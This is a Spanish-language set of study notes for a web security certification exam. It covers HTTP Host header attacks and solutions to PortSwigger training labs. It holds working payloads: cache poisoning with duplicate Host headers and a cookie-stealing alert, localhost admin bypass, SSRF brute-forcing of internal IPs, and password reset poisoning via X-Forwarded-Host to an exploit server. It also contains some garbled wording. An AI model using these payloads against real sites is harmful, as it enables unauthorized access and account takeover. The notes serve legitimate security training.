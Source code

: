 <hr>
## Qué es la cabecera HTTP Host?

La cabecera HTTP Host es una cabecera de solicitud obligatoria a partir de HTTP/1.1. Especifica el nombre de dominio a la que el cliente quiere acceder. Por ejemplo, cuando un usuario visita `https://portswigger.net/web-security`, su navegador compondrá una solicitud que contiene una cabecera de Host de la siguiente manera:

```
GET /web-security HTTP/1.1
Host: portswigger.net
```

En algunos casos, como cuando la solicitud ha sido remitida por un sistema de intermediarios, el valor de los hostels puede modificarse antes de que llegue al componente de back-end previsto. A continuación se discutirá este escenario con más detalle.

## Qué es un ataque de cabecera HTTP Host?

Los ataques de encabezados HTTP Host explotan sitios web vulnerables que manejan el valor de la cabecera de Host de una manera insegura. Si el servidor confía implícitamente en la cabecera de Host, y no lo valida o escapa adecuadamente, un atacante puede ser capaz de utilizar este intromisivo para inyectar cargas útiles dañinas que manipulan el comportamiento del lado del servidor. Los ataques que implican inyectar una carga útil directamente en la cabecera de Host a menudo se conocen como ataques de "inyección de cabecera de hosta".

Cualquiera de estos headers a añadir. 
- `X-Host`
- `X-Forwarded-Server`
- `X-HTTP-Host-Override`
- `Forwarded`
### LAB: Host Header Web Cache Poisoning Vía Ambiguous Request `alert`

```js
//Modificar el HOST, añadiendo un cache buster de test. 
GET /?cb=jsjsj HTTP/1.1
Host: web-security-academy.net
Host: Exploit-Server.net

//En exploit server -> store & deliver exploit to victim
alert(document.cookie)

//Actualizar el request al home. 
```

### LAB: Host Header Auth Bypass `admin`

```js
//admin interface is only accesible via Local

GET /admin HTTP/1.1
Host: localhost
```

### LAB:  Host Header Routing-Based SSRF `192.168.0.0/24` `admin` 

Hay algo que toca definir antes de partir a resolver el laboratorio, nos brindan una ip con su notación CIDR, sin embargo en la mayoría de casos un atacante pensaría que debería atacar a los dos últimos octetos de bits de la IP lo cual es errado, en este caso vemos un octeto de notación `/24` lo cual significa que:

```jsx
192.168.0.0/24 -> 8+8+8=24 los 3 primeros octetos están estaticos
192.168.0 (ocupados) .0 (disponible para ataque brute force)
```

- La interfaz `/admin` de por sí no existe, cuando la pongo en request retorna not found, entonces el ataque lo dirigiré por intruder con param posición en el último octeto y el endpoint en `/admin` hasta que una response me retorno 200, con los posibles numeros del 0-255 iniciando en el 1, 255 porque claro es la cantidad octeto de bits posibles de cada octeto.

![[Pasted image 20250220080835.png]]

* Desactivar el Host Header automatico & ignore. 
* Payloads Numbers [0-255] - `GET /admin HTTP/1.1`

```js
SSRF to access admin panel somewhere in 192.168.1.0/24
-> confirm you can change host to your collaborator
-> deselect in intruder update host header to match target
-> Host: 192.168.0.§1§
```

### LAB:  SRF via flawed request parsing `192.168.1.0/24`

* Y el campo check: Update Host header to match target lo desactivo efectivamente.

```js
GET https://vulnerable-website.com/admin HTTP/1.1
Host: 192.168.0.§1§ //intruder attack
Connection: Close
Content-Length: ... etc
```

### LAB: Host validation bypass via connection state attack `Paralell Single Connection` `admin panel`

* Un ataque en repeater de tipo `Paralell Single Connection` 2 Request, una legitima la otra modificada intencionalmente. 
* (in the exam it would be probably `localhost:6566`)

```js
// REQUEST 1 -> Legitima
GET / HTTP/1.1
Host: ID-LAB.com
Connection: keep-alive

// REQUEST 2 -> Maliciosa
GET /admin HTTP/1.1
Host: 192.168.0.1
```

### Spoof IP Address Host Header

> _**Identify**_ that altered HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.

> Include the below `X-` headers and change the username parameter on the password reset request to `Carlos` before sending the request.  
> In the BSCP exam if you used this exploit then it means you have not used a vulnerability that require user interaction and allow you to use an interaction vulnerability to gain access to stage 3 as admin by using exploit server `Deliver exploit to victim` function.

```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```

> Check the exploit server log to obtain the reset link to the victim username.

[![Exploit Server Logs capture the forgot password reset token](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/HOST-Header-forgot-password-reset.PNG)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/HOST-Header-forgot-password-reset.PNG)


> SSRF Sample payloads.

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```

> Alternative IP representation of `127.0.0.1`:

1. 2130706433
2. 017700000001
3. 127.1


